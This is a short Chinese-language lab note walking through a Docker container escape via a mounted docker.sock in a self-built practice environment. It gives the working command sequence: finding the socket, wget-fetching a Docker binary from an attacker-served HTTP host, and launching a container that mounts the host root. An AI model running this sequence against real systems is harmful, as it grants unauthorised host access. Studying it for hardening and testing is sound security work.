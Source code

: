配置不当--Socket逃逸

2023年12月2日

14:36

启动靶场：docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu

进入环境：docker exec -it with_docker_sock /bin/bash

![image-20231202152403675](./assets/image-20231202152403675.png)

检测文件：ls -lah /var/run/docker.sock

全文搜索：find / -type s -name docker.sock 2\>/dev/null

/var/run/docker.sock 和 /run/docker.sock 都是同一个 Unix 套接字文件的不同路径。这是因为 /var/run 和 /run 实际上是 Linux 系统中的符号链接，它们指向同一个目录。

![image-20231202152409041](./assets/image-20231202152409041.png)

找到之后，上传docker安装包到目标机器

python3 -m http.server 80 本地起一个环境\[把docker安装包放在启动目录下\]

下载

wget <http://192.168.86.218/docker-18.09.9.tgz>

解压

tar -xzvf docker-18.09.9.tgz

![image-20231202152415360](./assets/image-20231202152415360.png)

cd docker

chmod +x docker

./docker -H unix:///run/docker.sock images

![image-20231202152419008](./assets/image-20231202152419008.png)

这个时候，启动一个本地docker

./docker -H unix:///var/run/docker.sock run -d -v /:/host alpine tail -f /dev/null

 

./docker -H unix:///var/run/docker.sock exec IMAGE_ID 命令

./docker -Hunix:///var/run/docker.sock exec fe0f9c6f412c ls /host

![image-20231202152422936](./assets/image-20231202152422936.png)

 

逃逸成功

接下来看逃逸成功之后的操作---docker
